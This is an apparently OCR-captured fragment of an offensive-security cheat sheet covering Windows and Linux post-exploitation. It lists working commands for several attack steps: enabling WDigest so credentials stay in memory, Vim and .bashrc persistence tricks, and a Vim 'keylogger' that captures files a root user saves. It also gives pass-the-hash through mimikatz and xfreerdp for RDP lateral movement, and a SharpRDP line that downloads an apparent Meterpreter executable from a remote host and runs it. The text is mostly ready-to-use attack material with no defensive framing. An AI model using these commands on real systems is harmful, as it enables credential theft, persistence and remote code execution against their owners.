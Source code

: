 Enable wdigest
```
HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest  -> value "1"
```

VIM
```shell
.vimrc
~/.vim/plugin/<name>.vim
:silent !source ~/.vimrunscript
```

.bashrc
```shell
alias sudo="sudo -E"
```

View sudo current user permissions
```shell
sudo -l
```

Open shell
```shell
:shell
```

Keylogger
```shell
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```

<hr>
# Traversal
<hr>
RDP
```
mstsc /admin (without disconnecting regular user)
mstsc /restrictedadmin (use current creds)
```

PTH
```
sekurlsa::pth /user:admin /domain:<domain> /ntlm:<ntlm> /run:"mstsc.exe /restrictedadmin"

sekurlsa::pth /user:admin /domain:<domain> /ntlm:<ntlm> /run:powershell
Enter-PSSession -Computer <hostname>

xfreerdp /u:admin /pth:<ntlm> /v:192.168.1.1 /cert-ignore
```

SharpRDP
```
SharpRDP.exe computername=srv command=notepad username=domain\willem password=lab
sharprdp.exe computername=srv command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=domain\willem password=lab
```
